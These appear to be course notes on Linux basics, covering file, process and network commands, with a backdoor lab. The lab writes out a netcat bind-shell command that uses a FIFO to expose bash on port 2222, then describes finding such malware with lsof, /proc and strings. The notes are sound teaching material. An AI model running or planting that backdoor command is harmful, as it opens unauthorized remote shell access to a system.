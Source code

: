 ### Essential Linux Commands

- `ls` - List files and directories
- `ls -a` - Show hidden files (files starting with `.`)
- `ls -lrt` - Long listing with details, sorted by time
- `cd` - Change directory
- `pwd` - Print working directory
- `mkdir` - Make directory
- `locate` - Find files by name (uses a database)
- `update-db` - Update the locate database
- `which` - Show which executable will run for a command
- `vi`/`vim`/`nano` - Text editors
- `cat` - Display file contents
- `ps` - Display process information
- `ps aux` - Show all processes with details
- `top` - Interactive process viewer
- `ifconfig`/`ip a` - Show network interface information
- `ping` - Test network connectivity
- `nmap` - Network scanner
- `netstat` - Show network connections
- `lsof` - List open files
- `lsof -i` - List open internet connections
- `sudo su -` - Become root with environment variables

### Hidden Files in Linux

- Files starting with a `.` are hidden by default
- User configuration files are typically stored as hidden files in home directories
- View hidden files with `ls -a`

### Processes in Linux

- Each process has a unique Process ID (PID)
- Processes can be viewed with `ps`, `top`, and other tools
- `/proc` directory contains information about running processes
    - `/proc/[PID]` - Directory for each process
    - `/proc/[PID]/exe` - Link to the executable in memory
    - `/proc/[PID]/cmdline` - Command line arguments

### Network Commands

- `ifconfig` - Display network interfaces (traditional)
- `ip a` - Display network interfaces (newer command)
- `ping` - Test network connectivity ("packet internet groper")
- `nmap` - Network scanner for open ports
- `netstat` - Display network connections
- `lsof -i` - List open network files/connections

### Linux Backdoor Lab

- Creating a FIFO (First In, First Out) "backpipe" for covert communication
    - `mknod backpipe p` creates a special file for inter-process communication
    - Backdoor command: `bin/bash < backpipe | nc -l -p 2222 > backpipe`
    - This creates a backdoor listening on port 2222
- Finding malware on Linux:
    1. Use `lsof -i -P` to identify suspicious network connections
    2. Note the process ID (PID) of suspicious processes
    3. Use `lsof -p [PID]` to see all files opened by the process
    4. Check `/proc/[PID]/exe` to examine the executable in memory
    5. Use `strings` against the executable to see readable text
    6. Even if malware deletes itself, it remains in memory and can be extracted
        - `lsof +L1` shows deleted files still open by processes
        - Copy `proc/[PID]/exe` to extract memory-resident malware
